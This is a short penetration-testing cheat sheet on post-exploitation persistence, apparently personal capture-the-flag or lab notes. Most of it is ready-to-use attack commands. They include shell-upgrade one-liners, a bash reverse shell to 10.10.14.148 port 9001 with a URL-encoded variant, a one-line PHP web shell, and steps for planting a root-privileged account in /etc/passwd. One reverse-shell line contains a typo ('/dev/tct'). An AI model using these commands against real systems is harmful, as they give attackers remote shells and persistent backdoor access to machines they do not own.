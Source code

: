 # Persistance

## Remote shells

```bash
python -c 'import pty;pty.spawn("/bin/bash")'; 
ctrl-z #send to background
stty raw -echo #https://stackoverflow.com/questions/22832933/what-does-stty-raw-echo-do-on-os-x
stty -a #get local number of rows & columns
fg #to return shell to foreground
stty rows <x> columns <y> #Set remote shell to x number of rows & y columns
export TERM=xterm-256color #allows you to clear console, and have color output
```

To upgrade to fully interactive shell \(python example\):

```python
1. python -c 'import pty; pty.spawn("/bin/sh")'
2. perl -e 'exec "/bin/sh";'
3. ruby -e 'exec "/bin/sh"'
```

### Upgrade shells:

```bash
bash -i >& /dev/tct/10.10.14.148/9001 0>&1

#URL encoded: 
bash+-i+>%26+/dev/tcp/10.10.14.148/9001+0>%261
```

bash reverse shell:

simple php shell: `<?php system($_GET['variable_name']); ?>`

## Accounts

### Add Account and/or Password to /etc/passwd

Generate password:

`openssl passwd -1 -salt [Username] [PASSWD]`

Then add to `/etc/passwd` file:

`Username:generated password:UID:GUID:root:/root:/bin/bash`

